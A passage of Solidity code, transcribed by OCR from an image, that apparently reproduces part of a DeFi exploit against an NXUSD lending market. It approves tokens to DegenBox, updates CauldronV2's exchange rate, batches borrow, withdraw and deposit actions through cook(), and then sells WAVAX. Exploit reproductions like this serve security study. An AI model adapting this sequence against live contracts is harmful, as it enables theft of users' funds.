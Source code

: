 │         Pair.approve(address(DegenBox), type(uint).max);                                                                                                                                                                                             │
│         DegenBox.setMasterContractApproval(                                                                                                                                                                                                          │
│             address(this),                                                                                                                                                                                                                           │
│             masterContract,                                                                                                                                                                                                                          │
│             true,                                                                                                                                                                                                                                    │
│             0,                                                                                                                                                                                                                                       │
│             0,                                                                                                                                                                                                                                       │
│             0                                                                                                                                                                                                                                        │
│         );                                                                                                                                                                                                                                           │
│         // update rate                                                                                                                                                                                                                               │
│         CauldronV2.updateExchangeRate();                                                                                                                                                                                                             │
│         // cook function in CauldronV2                                                                                                                                                                                                               │
│         bytes[] memory datas = new bytes[](4);                                                                                                                                                                                                       │
│         datas[0] = abi.encode(borrowAmounts, address(this)); // type borrow                                                                                                                                                                          │
│         datas[1] = abi.encode(NXUSD, address(this), borrowAmounts,share); // type withdraw                                                                                                                                                           │
│         datas[2] = abi.encode(Pair, address(this), 45330977931305070, share); // type deposit                                                                                                                                                        │
│         datas[3] = abi.encode(-2, address(this), false); // Collateral enter market                                                                                                                                                                  │
│         CauldronV2.cook(actions, values, datas);                                                                                                                                                                                                     │
│                                                                                                                                                                                                                                                      │
│         // sell WAVAX`                                                                                                                                                                                                                               │
│         sellWAVAX();                                                                                                                                                                                                                                 │